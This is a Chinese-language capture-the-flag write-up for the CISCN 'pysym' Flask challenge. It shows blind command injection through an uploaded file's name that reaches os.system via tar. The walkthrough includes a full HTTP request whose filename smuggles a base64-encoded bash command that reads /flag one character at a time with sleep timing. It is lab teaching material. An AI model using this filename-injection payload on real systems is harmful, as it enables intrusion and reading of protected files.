 ## 基本信息

* 题目名称： [CISCN 2023 华北]pysym
* 题目链接： https://www.nssctf.cn/problem/4098
* 考点清单： 无回显RCE，代码审计，Flask，HTTP爆破，带编码的爆破，模糊测试
* 工具清单： Yakit
* payloads： 弱比较绕过，转义符绕过

## 一、看到什么

**题目关键信息列表**：

1. `源代码`: 该题的源码以附件形式给出；
1. `上传文件表单`: 一个选择文件按钮，一个上传文件按钮。


## 二、想到什么解题思路

1. `源码审计`: 对源码审计发现只有两个有用接口，能够访问上传的源码文件，但是只能下载。

1. `命令执行`：源码危险操作部分只有`os.system`，似乎能够进行命令注入。


## 三、尝试过程和结果记录

1. 定位到危险代码

   ```
   os.system('tar --absolute-names  -xvf {} -C {}'.format(savepath, directory))
   ```

   传入两个参数，其中`savepath`能够通过`file.filename`被控制，考虑在文件名构造命令注入。

2. 构造命令注入：

   由于考虑到可能没有vps，这里就不考虑`反弹shell`了，当作无回显不出网题目做，用sleep命令测试：

   ![](images/CISCN2019华北-pysym-sleep-5.png)

   响应时间少于5s，考虑可能是有特殊字符，尝试base64编码：

   ![](images/CISCN2019华北-pysym-base64-sleep.png)

   成功延时5s返回，所以思路可行。

3. 爆破flag：

   由于该命令注入不回显不出网，考虑时间盲注，考虑逐字符猜测flag，设置fuzz规则如下：

   ```http
   POST / HTTP/1.1
   Host: node5.anna.nssctf.cn:25753
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRCKUucBuQYBh9nVU
   Content-Length: 179
   
   ------WebKitFormBoundaryRCKUucBuQYBh9nVU
   Content-Disposition: form-data; name="file"; filename="1.txt || echo {{base64enc(bash -i -c '[ "$(head -c 1 /flag)" == "{{rangechar(20,7E)}}" ] && sleep 5')}} | base64 -d | bash ||"
   Content-Type: text/plain
   
   1
   ------WebKitFormBoundaryRCKUucBuQYBh9nVU--
   ```

   命令逻辑为读取`/flag`的第一个字符在可见ASCII字符范围进行爆破。

   测试flag，已知flag格式为`NSSCTF{XXXXXXXX}`，所以预期第一个字符为‘N’：

   ![](images/CISCN2019华北-pysym-guess.png)

   可以看到只有设置为N才延迟5秒返回，说明猜测正确。

   接下来可以逐字符爆破：

   ![](images/CISCN2019华北-pysym-burp.png)

   把延迟超过5000ms的响应包按照发包顺序组装payload即可获得最终flag

   ## 四、总结与反思
   
   1. 如果拿到源码文件后，定位到危险函数，然后倒推用户控制的输入，可以快速定位漏洞点；
   2. 要善于利用编码来绕过一些限制。
   
